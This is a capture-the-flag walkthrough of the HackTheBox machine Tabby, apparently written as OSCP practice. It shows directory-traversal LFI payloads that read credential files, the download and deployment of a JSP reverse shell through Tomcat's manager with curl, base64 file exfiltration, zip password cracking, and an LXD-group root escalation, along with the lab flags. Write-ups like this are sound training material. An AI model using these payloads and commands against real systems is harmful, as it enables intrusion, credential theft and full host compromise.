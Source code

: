 ```yaml
---
title: HackTheBox - Tabby
date: 2021-03-04 20:00:59 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, gobuster, dirb, LFI, tomcat, reverse-shell, John The Ripper, zip2john, LXD group privesc, writeup, oscp-prep]
image: /assets/img/htb/machines/linux/easy/tabby/Tabby.png
---
```


## Foothold

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Tabby-full-port-scan.txt 10.10.10.194
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp    open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp  open     http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
20688/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Apache/2.4.41 (port 80)

The main page of port 80 reveals a domain name `megahosting.htb` (that we can immediately add to our `/etc/hosts` file):

![Desktop View](/assets/img/htb/machines/linux/easy/tabby/80.png)

Second thing we can notice is that **data breach** statement that redirects to <http://megahosting.htb/news.php?file=statement>.

![Desktop View](/assets/img/htb/machines/linux/easy/tabby/data-breach-link.png)

![Desktop View](/assets/img/htb/machines/linux/easy/tabby/data-breach.png)

Due to the `.php?file=statement`, I wanted to try for LFI and it works: 

<http://megahosting.htb/news.php?file=../../../../../../../../../../../>

![Desktop View](/assets/img/htb/machines/linux/easy/tabby/LFI.png)

The presence of `lxd`, `tomcat`, and `mysql` in `/etc/passwd` may be useful later. Let's check port 8080. 

### Tomcat9 (port 8080)

**Tomcat 9** seems to be used. Plus, we can read that users are defined in `/etc/tomcat9/tomcat-users.xml`: 

![Desktop View](/assets/img/htb/machines/linux/easy/tabby/tomcat9.png)

Via `gobuster` and `dirb`, we see that there some "hidden" folders like `/manager`. Accessing this page requires credentials: 

![Desktop View](/assets/img/htb/machines/linux/easy/tabby/gobuster-8080.png)
![Desktop View](/assets/img/htb/machines/linux/easy/tabby/auth.png)
![Desktop View](/assets/img/htb/machines/linux/easy/tabby/8080-manager.png)

At this point, we can say that we want to take avantage of the LFI we found to retrieve `tomcat-users.xml`.

After trying several path and looking for tomcat's installation and configuration directories, I came across with this successful one <http://megahosting.htb/news.php?file=../../../../../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml> 

![Desktop View](/assets/img/htb/machines/linux/easy/tabby/tomcat-install-dir.png)
![Desktop View](/assets/img/htb/machines/linux/easy/tabby/askubuntu.png)
![Desktop View](/assets/img/htb/machines/linux/easy/tabby/creds.png)

The user is `tomcat` and his password is `$3cureP4s5w0rd123!`.

Surprisingly, we got an "access denied" response on `manager` when we log in:

![Desktop View](/assets/img/htb/machines/linux/easy/tabby/acces_denied.png)

### Exploiting Tomcat to gain a reverse shell

Reading at [hacktricks - pentesting web (tomcat)](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat), I understood that by deploying a malicious WAR file via tomcat, I can run malicious code.

> **WAR** files are just zip files.

I looked for **jsp**(JavaServer Pages) **reverse shell** and I used the first one: 

<https://gist.github.com/halozheng/bf0eaa60c5f166dbc848>

```bash
$ wget https://gist.githubusercontent.com/halozheng/bf0eaa60c5f166dbc848/raw/a8a53f3275c378897b24dd04e385465d0bee06b6/shell.jsp
# Edit shell.jsp with HTB IP and listener port
$ zip monshell.war shell.jsp
$ curl --upload-file monshell.war -u "tomcat:\$3cureP4s5w0rd123!" "http://10.10.10.194:8080/manager/text/deploy?path=/monshell"
OK - Deployed application at context path [/monshell]
# Run a listener
$ nc -lnvp 1234
...
```

Visiting <http://10.10.10.194:8080/monshell/shell.jsp> and we have a reverse shell as user `tomcat`:

![Desktop View](/assets/img/htb/machines/linux/easy/tabby/reverse_shell.png)

___

## User: `ash`

Now if we remember the `/etc/passwd` file we saw earlier, or if we just take a look at `/etc/home`, we see there is a user called `ash`.

I wanted to list all files that belongs to him and I found an interesting zip file:

```bash
$ find / -user ash 2>/dev/null
/var/www/html/files
/var/www/html/files/16162020_backup.zip
```

To get it on my own machine I printed the base64 of the file's content then I pasted it in a new file:

```bash
# On victim's machine
$ base64 16162020_backup.zip
...
# On my machine
$ cat > file.b64
... 
$ base64 -d file.b64 > 16162020_backup.zip
$ file 16162020_backup.zip 
16162020_backup.zip: Zip archive data, at least v1.0 to extract
```

### Cracking zip with john

Do not forget `zip2john`:

```bash
$ zip2john 16162020_backup.zip > 16162020_backup.john
```

![Desktop View](/assets/img/htb/machines/linux/easy/tabby/john.png)

And we retrieved the following password: `admin@it`.

```bash
tomcat@tabby:~$ su ash
Password: admin@it
ash@tabby:/opt/tomcat$ cd
ash@tabby:~$ cat user.txt 
662b777f8536a0dce33afdd15851778b
```

___

## Privesc via LXD Group (Road to oot)

Ash is part of `lxd` group:

![Desktop View](/assets/img/htb/machines/linux/easy/tabby/lxd_group.png)

Following the steps of this [hacktricks article](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation), we can perform a privilege escalation:

1. On our machine:

```bash
#Install requirements
sudo apt update
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools
#Clone repo
go get -d -v github.com/lxc/distrobuilder
#Make distrobuilder
cd $HOME/go/src/github.com/lxc/distrobuilder
make
cd
#Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
#Create the container
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8
```

2. Transfer ` lxd.tar.xz` and `rootfs.squashfs` on victim's machine. Then run `lxd init` and these commands:

```bash
$ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
$ lxc image list #You can see your new imported image
$ lxc init alpine privesc -c security.privileged=true
$ lxc list #List containers
$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
$ lxc start privesc
$ lxc exec privesc /bin/sh
~# cd /mnt/root #Here is where the filesystem is mounted
```

![Desktop View](/assets/img/htb/machines/linux/easy/tabby/lxd_privesc.png)

Flag:

```bash
$ cat root.txt 
26571b9decff2a772d66c476d47d4875
```

___

## Useful links

- <https://askubuntu.com/questions/135824/what-is-the-tomcat-installation-directory>
- <https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat>
- <https://gist.github.com/halozheng/bf0eaa60c5f166dbc848>
- <https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation>